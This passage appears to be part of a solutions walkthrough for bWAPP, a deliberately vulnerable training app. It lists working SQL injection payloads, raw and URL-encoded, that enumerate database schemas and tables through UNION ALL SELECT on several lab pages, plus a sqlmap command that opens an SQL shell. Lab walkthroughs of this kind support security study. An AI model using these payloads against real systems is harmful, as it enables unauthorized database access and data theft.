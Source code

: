 show specific field name. and exploere more by changing the limit and offset values.
```
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
```
or

```
sqli_2.php?movie=1%20UNION%20ALL%20SELECT%20table_schema%2ctable_name%2c%20null%2c%20null%2c%20null%2c%20null%2c%20null%20from%20information_schema.tables%20LIMIT%201%20OFFSET%204%3b--
```

![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_2_1.png)
![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_2_2.png)

### 💀  SQL Injection (POST/Search) 💀

url: /sqli_6.php

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--
```
or research more using sqlmap execute the following command
```
sqlmap -u "http://127.0.0.1:9000/sqli_6.php" --cookie="PHPS
ESSID=3agpar2ogveldop3d3psvfsfmt; security_level=0" --data "title=test&action=search" -p title –sql-shell

```
### 💀  SQL Injection (POST/Select) 💀

Use Burp

```
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
```
or burp code
```
1%20UNION%20ALL%20SELECT%20table_schema%2c%20table_name%2c%20null%2c%20null%2c%20null%2c%20null%2c%20null%20FROM%20information_schema.tables%20LIMIT%201%20OFFSET%201%3b--
```
### 💀  SQL Injection (AJAX/JSON/jQuery) 💀
url: /sqli_10-2.php

sends get request using ajax
Use Burp

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;-- "
```
or url incoded 
```
a%25'%20UNION%20ALL%20SELECT%20table_schema%2ctable_name%2c%20null%2c%20null%2c%20null%2c%20null%2c%20null%20from%20information_schema.tables%3b--%20%22
```

